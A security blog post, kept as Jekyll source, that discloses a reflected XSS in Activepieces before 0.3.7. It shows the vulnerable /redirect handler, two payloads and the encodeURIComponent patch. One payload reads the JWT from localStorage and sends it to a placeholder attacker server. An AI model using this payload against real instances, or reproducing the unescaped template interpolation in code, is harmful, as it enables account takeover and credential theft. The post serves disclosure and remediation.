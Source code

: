 ```yaml
---
layout: default
title:  "XSS on Steroids | Gaining Unauthenticated Access"
date:   2023-04-10 11:12:00 -0500
categories: jekyll update
templateEngineOverride: md
permalink: /bloghub/xss-on-steroids/
---
```


{% raw %} 

## Introduction  

[Activepieces](https://www.activepieces.com/) is an open-source business automation tool, aka the open-source alternative for *Zapier*, which helps individuals automate flows and their work in a flexible UI environment without the need to write code, for example, you can build automation with *Activepieces* to send a Slack notification for each new Trello card.  

In my effort to help the open-source world enhance its security posture, I decided to do vulnerability research, meanwhile testing, I identified a reflected XSS that helps unauthenticated attackers gain access by inducing victims to click on the specially crafted link. 

Following this article, we are going to explore the technical details of the vulnerability, exploit it, and showcase how it was mitigated. 

## Impact

Versions prior to `0.3.7` are vulnerable to **Reflected XSS**, which leverages unauthenticated attackers to gain access and possibly steal credentials for added pieces and flows.

## Deep Dive

The application is written with TypeScript, a Typed JavaScript framework. The [application](https://github.com/activepieces/activepieces) separates frontend and backend code in separate folders inside the **packages** directory.

```html
$> tree packages -L 1
packages
├── backend
├── ee
├── engine
├── frontend
├── pieces
└── shared
```

Moreover, the backend structure looks as follows, where it’s pretty obvious where the backend code and unit tests reside.

```html
$> tree packages/backend -L 2 
├── jest.config.ts
├── project.json
├── src
│   ├── app
│   ├── assets
│   └── main.ts
├── test
│   ├── resources
│   └── workers
├── tsconfig.app.json
├── tsconfig.json
├── tsconfig.spec.json
├── types
│   ├── fastify.d.ts
│   └── redis-lock.d.ts
└── webpack.config.js
```

Reviewing `main.ts` which from its name indicates the main function and application starter, indeed, we can see the starter function at the end of the file.

**activepieces/packages/backend/src/main.ts**

```jsx
const start = async () => {
try {
	.... 
	await app.listen({
            host: "0.0.0.0",
            port: 3000, 
				}); 
	}
}
```

The *app* object defines an interesting route `/redirect` which accepts user input from the *code* query parameter. 

**activepieces/packages/backend/src/main.ts**

```jsx
app.get(
    "/redirect",
    async (
        request: FastifyRequest<{ Querystring: { code: string; } }>, reply
    ) => {
        const params = {
            "code": request.query.code
        };
        if (params.code === undefined) {
            reply.send("The code is missing in url");
        }
        else {
            reply.type('text/html').send(`<script>if(window.opener){window.opener.postMessage({ 'code': '${params['code']}' },'*')}</script> <html>Redirect succuesfully, this window should close now</html>`)
        }
    }
);
```

As we can see, when the *code* parameter is set, the code flows to the *else* branch and returns an HTML containing the user input passed as a parameter to the *window.opener.postMessage(),* the parameter lacks sanitization such as HTML or URL encoding before it's reflected in the browser. 

Crafting a payload that closes the called function, following it with our payload will eventually look as follows:

```
test' },'*')} else alert('poc');//
```

 This can be also leveraged to steal the authenticated JWT token:

```
test' },'*')} else { const xhr = new XMLHttpRequest();xhr.open('GET', '<your server>' + localStorage.getItem('token'));xhr.send(); }//
```

## Patch

The vulnerability was mitigated by passing the *params[’code’]* to `encodeURIComponent()`. 

```jsx
else {
 reply.type('text/html').send(`<script>if(window.opener){window.opener.postMessage({ 'code': '${encodeURIComponent(params['code'])}' },'*')}</script> <html>Redirect succuesfully, this window should close now</html>`)
      }
```


{% endraw %}